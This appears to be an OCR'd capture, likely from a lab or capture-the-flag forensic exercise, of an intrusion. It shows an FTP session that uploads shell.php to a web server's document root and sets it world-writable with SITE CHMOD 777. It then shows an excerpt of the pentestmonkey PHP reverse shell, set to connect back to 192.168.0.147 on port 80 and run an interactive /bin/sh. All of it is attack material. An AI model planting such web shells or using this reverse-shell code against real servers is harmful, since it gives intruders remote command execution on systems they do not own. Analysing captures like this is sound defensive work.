   ```
  257 "/var/www/html" is the current directory
  
  PORT 192,168,0,147,225,49
  
  200 PORT command successful. Consider using PASV.
  
  LIST -la
  
  150 Here comes the directory listing.
  226 Directory send OK.
  
  TYPE I
  
  200 Switching to Binary mode.
  
  PORT 192,168,0,147,196,163
  
  200 PORT command successful. Consider using PASV.
  
  STOR shell.php
  
  150 Ok to send data.
  226 Transfer complete.
  
  SITE CHMOD 777 shell.php
  
  200 SITE CHMOD command ok.
  
  QUIT
  
  221 Goodbye.
  ```

  ```
  ftp-data filter

  [SNIP!]
  
  // Usage
  // -----
  // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
  
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '192.168.0.147';  // CHANGE THIS
  $port = 80;       // CHANGE THIS
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  
  [SNIP!]
  ```
